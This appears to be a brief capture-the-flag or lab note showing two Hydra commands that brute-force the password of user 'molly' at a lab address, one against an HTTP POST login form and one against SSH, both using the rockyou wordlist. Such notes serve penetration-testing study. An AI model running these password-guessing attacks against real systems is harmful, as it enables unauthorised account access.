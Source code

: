 
**http-post-form**
```shell
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.6.131 http-post-form "/login:username=molly&password=^PASS^:Your username or password is incorrect."
```

**ssh**
```shell
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.6.131
```
